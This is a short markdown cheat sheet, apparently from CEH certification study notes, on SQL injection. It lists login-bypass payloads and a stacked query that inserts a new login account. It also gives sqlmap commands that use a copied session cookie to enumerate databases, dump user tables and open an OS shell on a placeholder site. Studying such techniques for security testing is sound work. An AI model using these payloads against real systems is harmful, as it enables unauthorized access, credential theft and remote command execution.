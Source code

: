 # [<<< Back to index](../CEH_index.md)
## SQL Injection


```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
```

blah';insert into login values('john','apple123');-- `Insert new details if sql injection found in login page in username tab enter`

### sqlmap

`cookie` In the website profile, do inspect element and in the console tab write -  document.cookie

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --dbs `Exploit a Blind SQL Injection`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename --tables `Command to check tables of database retrieved`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" -D databasename -T Table_Name --dump `Get user and pass -Select the table 
you want to dump`

sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value don't remove square brackets]" --os-shell `For OS shell this is the command`

### ZAP Proxy - web scanner

`zaproxy`
